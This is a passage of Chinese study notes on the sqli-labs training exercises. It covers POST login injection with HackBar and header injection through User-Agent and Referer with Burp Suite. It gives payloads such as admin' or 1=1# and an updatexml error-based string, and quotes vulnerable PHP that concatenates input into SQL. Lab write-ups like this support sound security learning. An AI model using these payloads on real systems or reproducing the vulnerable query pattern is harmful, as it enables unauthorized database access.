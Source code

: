 2. 看到提交的参数分别是 uname passwd submit

3. 其实 submit 没必要提交，而且由于这个 submit 和 form 中的 submit 重名了，如果提交反而会报错失败

4. 在 hackbar 上进行 post 注入：uname=admin' or 1=1#&passwd=111

5. 如果想获取数据库相关信息，在单引号和 # 之间进行 union 注入即可

# 使用 Burp Suite 进行 Header Injection

1. 首先我们需要争取到一个 username 和 password

2. 看到页面返回了 User Agent : ![image-20240504191737723](C:\Users\A2140\AppData\Roaming\Typora\typora-user-images\image-20240504191737723.png)

3. 查看 php 源码得知注入点就在 $uagent

4. ```php
   $insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
   ```

5. 先用 Burp Suite 拦截，修改 User-Agent 后再向服务器发送请求

6. 利用报错信息得到期望的数据库信息

7. ```
   User-Agent: 1'or updatexml(1,concat('~',(select database())),3),2,3)#
   ```





# 使用 Burp Suite 进行 Header Injection

跟 less-18 几乎一样，只是注入位置从 user-agent 到了 referer

# 使用 Burp Suite 进行 Header Injection

```php
$cookee = $_COOKIE['uname'];
$format = 'D d M Y - H:i:s';
$timestamp = time() + 3600;
echo "<center>";
echo '<br><br><br>';
echo '<img src="../images/Less-20.jpg" />';
echo "<br><br><b>";
echo '<br><font color= "red" font size="4">';	
echo "YOUR USER AGENT IS : ".$_SERVER['HTTP_USER_AGENT'];
echo "</font><br>";	
echo '<font color= "cyan" font size="4">';	
echo "YOUR IP ADDRESS IS : ".$_SERVER['REMOTE_ADDR'];			
echo "</font><br>";			
echo '<font color= "#FFFF00" font size = 4 >';
echo "DELETE YOUR COOKIE OR WAIT FOR IT TO EXPIRE <br>";
echo '<font color= "orange" font size = 5 >';			
echo "YOUR COOKIE : uname = $cookee and expires: " . date($format, $timestamp);
```
